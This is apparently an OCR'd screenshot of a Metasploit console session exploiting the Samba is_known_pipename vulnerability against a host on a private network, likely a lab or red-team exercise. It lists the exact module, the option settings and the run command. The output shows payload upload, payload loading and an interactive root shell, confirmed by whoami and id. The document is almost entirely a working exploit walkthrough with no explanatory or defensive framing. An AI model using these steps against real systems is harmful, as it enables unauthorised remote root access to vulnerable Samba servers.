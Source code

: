 `$ msf5 > use exploit/linux/samba/is_known_pipename`

`msf5 exploit(linux/samba/is_known_pipename) > set RHOSTS 10.1.1.129`

`msf5 exploit(linux/samba/is_known_pipename) > set LHOST 10.1.1.128`

`msf5 exploit(linux/samba/is_known_pipename) > set RPORT 139`

`$ msf5 exploit(linux/samba/is_known_pipename) > show options`

```
Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS          10.1.1.129       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           139              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)
```

`$ msf5 exploit(linux/samba/is_known_pipename) > run`

```
[*] 10.1.1.129:139 - Using location \\10.1.1.129\tmp\ for the path
[*] 10.1.1.129:139 - Retrieving the remote path of the share 'tmp'
[*] 10.1.1.129:139 - Share 'tmp' has server-side path '/var/tmp
[*] 10.1.1.129:139 - Uploaded payload to \\10.1.1.129\tmp\FjeFneUb.so
[*] 10.1.1.129:139 - Loading the payload from server-side path /var/tmp/FjeFneUb.so using \\PIPE\/var/tmp/FjeFneUb.so...
[-] 10.1.1.129:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 10.1.1.129:139 - Loading the payload from server-side path /var/tmp/FjeFneUb.so using /var/tmp/FjeFneUb.so...
[-] 10.1.1.129:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 10.1.1.129:139 - Uploaded payload to \\10.1.1.129\tmp\JbzazcPb.so
[*] 10.1.1.129:139 - Loading the payload from server-side path /var/tmp/JbzazcPb.so using \\PIPE\/var/tmp/JbzazcPb.so...
[-] 10.1.1.129:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 10.1.1.129:139 - Loading the payload from server-side path /var/tmp/JbzazcPb.so using /var/tmp/JbzazcPb.so...
[+] 10.1.1.129:139 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (10.1.1.128:45511 -> 10.1.1.129:139) at 2019-11-10 13:02:17 +1100

whoami ; id ; hostname   
root
uid=0(root) gid=0(root) groups=0(root)
red.initech
```
